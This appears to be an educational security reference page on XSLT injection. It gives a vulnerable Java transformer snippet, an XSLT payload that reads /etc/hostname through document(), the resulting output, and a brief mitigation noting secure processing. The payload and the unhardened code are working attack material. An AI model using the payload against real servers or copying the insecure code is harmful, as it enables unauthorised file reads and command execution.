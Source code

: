 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xslt-injection/main/xslt-injection.png"></p>

A threat actor may interfere with an application's processing of extensible stylesheet language transformations (XSLT) for extensible markup language (XML) to read or modify data on the target

## Example #1
1. Threat actor submits a malicious request to a target that has a vulnerable XSLT processor
2. The target's XSLT processor parses the malicious file (Based on the processor and the version of the XSLT specification)

## Code
#### Target-Logic
```java
...
Result result = new StreamResult(System.out);
Source xslt = new StreamSource(new File("test.xslt"));
Source xml = new StreamSource(new File("test.xml"));
TransformerFactory factory = TransformerFactory.newInstance();
Transformer transformer = factory.newTransformer(xslt);
transformer.transform(xml, result);
...
```

#### Target-In
```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xs>
  <xsl:template match="/">
    <xsl:copy-of select=" document('/etc/hostname')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XSLT Injection

## Risk
- Read & Write data
- Command Execution

## Redemption
- Secure processing

## ID
012e4a7b-b8ae-44a6-9b6f-08d24cf7dba2

## References
- [acunetix](https://www.acunetix.com/vulnerabilities/web/xslt-injection)
